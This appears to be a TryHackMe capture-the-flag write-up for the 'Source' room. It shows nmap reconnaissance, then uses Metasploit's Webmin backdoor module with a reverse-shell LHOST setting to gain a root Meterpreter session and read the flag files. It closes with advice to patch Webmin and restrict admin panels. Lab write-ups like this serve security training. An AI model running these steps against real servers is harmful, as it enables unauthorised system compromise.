









# TryHackMe - Source

**Platform:** TryHackMe  
**Room:** Source  

---

## Overview

The **Source** room involves exploiting a vulnerable version of **Webmin**, a web-based system administration tool, using a known backdoor vulnerability. The goal is to achieve remote code execution and capture both the user and root flags.

---

## Reconnaissance

### Nmap Scan

Start with a network scan to enumerate open ports on the target:

```bash
nmap -sV -sC <TARGET_IP>
```



> **Note:** -sV: Probes open ports to identify the software name and version running on them (e.g., Apache httpd 2.4.41).
-sC: Executes the default set of scripts from the Nmap Scripting Engine (NSE) to identify vulnerabilities, enumerate services, or check configuration issues.

**Results:**

| Port  | Service | Notes                  |
|-------|---------|------------------------|
| 22    | SSH     | OpenSSH                |
| 10000 | HTTP    | Webmin (HTTPS)         |

Two ports are open: **22 (SSH)** and **10000 (Webmin)**.

---

## Enumeration

### Accessing Webmin

Navigate to the target on port 10000 in the browser:

```
https://<TARGET_IP>:10000
```


Accept the SSL certificate warning — you'll be greeted with a **Webmin login page**.

Attempting common credentials (`admin`, `root`, `user`, etc.) yields no access. Time to look for a known vulnerability.



---

## Vulnerability Research

Searching **AttackerKB** for "Webmin" reveals a critical **command injection / backdoor vulnerability** affecting a specific version of Webmin:

- 🔗 https://attackerkb.com/search?q=webmin

The vulnerability details confirm that a **Metasploit module** is available for exploitation.

**Reference module (GitHub):**  
🔗 https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/webmin_backdoor.rb

---

## Exploitation

### Setting Up Metasploit

Launch Metasploit:

```bash
msfconsole
```


Search for the relevant exploit:

```bash
search webmin backdoor
```
Or we can refer to the reference module on github for the link to the exploit.

Select and configure the module:

```bash
use exploit/linux/http/webmin_backdoor
show options
```



### Setting Required Options

```bash
set SSL true
set RHOSTS <TARGET_IP>
set LHOST <YOUR_IP>
run
```



> **Note:** In Metasploit, the LHOST and LPORT are variables used within the Metasploit Framework and msfvenom payload generation, to establish a "reverse shell" connection from a target machine back to an attacker's machine.
- LHOST (Local Host): The IP address or domain of the attacker's machine that the victim's computer will connect back to.
- LPORT (Local Port): The port number on the attacker's machine that the victim's computer will connect to.

### Getting a Shell

The exploit fires and returns a **Meterpreter session**. Confirm access:

```bash
whoami
# root
```

Drop into a native shell:

```bash
shell
```


> **Note:** In Metasploit, the `shell` command is used within a Meterpreter session to access the OS's native command-line interface — `/bin/sh` on Linux or `cmd.exe` on Windows. It gives direct, unrestricted access to the target system.

---

## Flags

### Root Flag

```bash
cat /root/root.txt
```

### User Flag

List home directories to find the local user:

```bash
ls /home/
# dark
```

```bash
cat /home/dark/user.txt
```
And that's it!

---

## Summary

| Step | Action |
|------|--------|
| Recon | Nmap scan reveals ports 22 and 10000 |
| Enumeration | Webmin login page on port 10000; default creds fail |
| Research | AttackerKB confirms backdoor CVE with Metasploit module |
| Exploitation | `exploit/linux/http/webmin_backdoor` with SSL enabled |
| Post-Exploitation | Meterpreter → shell → root access |
| Flags | Root flag at `/root/root.txt`, user flag at `/home/dark/user.txt` |

---

## Tools Used

- `nmap` - Port and service enumeration
- `Metasploit Framework` - Exploitation (`exploit/linux/http/webmin_backdoor`)
- Browser - Webmin web interface
- AttackerKB - Vulnerability research

---

## Key Takeaway

This room demonstrates how **unpatched software** with known backdoor vulnerabilities can lead to **full system compromise**. Always keep services like Webmin up to date, restrict access by IP, and avoid exposing administration panels to the internet.